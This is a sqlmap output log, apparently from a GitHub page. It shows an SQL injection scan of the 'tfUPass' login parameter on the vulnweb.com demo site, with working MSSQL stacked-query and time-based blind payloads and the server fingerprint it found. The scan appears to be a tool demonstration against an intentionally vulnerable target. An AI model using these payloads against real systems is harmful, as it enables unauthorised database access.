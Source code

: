 ```shell
[13:26:55] [INFO] testing sql injection on POST parameter 'tfUPass'
[13:26:55] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:27:02] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[13:27:05] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:27:07] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
[13:27:10] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[13:27:12] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[13:27:14] [INFO] testing 'PostgreSQL > 8.1 stacked queries'
[13:27:17] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries'
[13:27:30] [INFO] POST parameter 'tfUPass' is 'Microsoft SQL Server/Sybase stacked queries' injectable
[13:27:30] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'
[13:27:31] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[13:27:31] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind'
[13:27:42] [INFO] POST parameter 'tfUPass' is 'Microsoft SQL Server/Sybase time-based blind' injectable
[13:27:42] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[13:27:48] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[13:27:48] [WARNING] using unescaped version of the test because of zero knowledge of the back-end DBMS
sqlmap got a 302 redirect to /Search.asp - What target address do you want to use from now on? http://testasp.vulnweb.com:80/Login.asp (default) or provide another target address based also on the redirection got from the application

>
[13:27:58] [INFO] target url appears to be UNION injectable with 2 columns
POST parameter 'tfUPass' is vulnerable. Do you want to keep testing the others? [y/N] N
sqlmap identified the following injection points with a total of 68 HTTP(s) requests:
---
Place: POST
Parameter: tfUPass
    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries
    Payload: tfUName=test&tfUPass=test'; WAITFOR DELAY '0:0:5';-- AND 'mPfC'='mPfC

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind
    Payload: tfUName=test&tfUPass=test' WAITFOR DELAY '0:0:5'-- AND 'wpkc'='wpkc
---

[13:28:08] [INFO] testing MySQL
[13:28:09] [WARNING] the back-end DBMS is not MySQL
[13:28:09] [INFO] testing Oracle
[13:28:10] [WARNING] the back-end DBMS is not Oracle
[13:28:10] [INFO] testing PostgreSQL
[13:28:10] [WARNING] the back-end DBMS is not PostgreSQL
[13:28:10] [INFO] testing Microsoft SQL Server
[13:28:16] [INFO] confirming Microsoft SQL Server
[13:28:28] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2003
web application technology: ASP.NET, Microsoft IIS 6.0
back-end DBMS: Microsoft SQL Server 2005
[13:28:28] [WARNING] HTTP error codes detected during testing:
500 (Internal Server Error) - 42 times
[13:28:28] [INFO] Fetched data logged to text files under '/home/testuser/sqlmap/output/testasp.vulnweb.com'

[*] shutting down at: 13:28:28
```
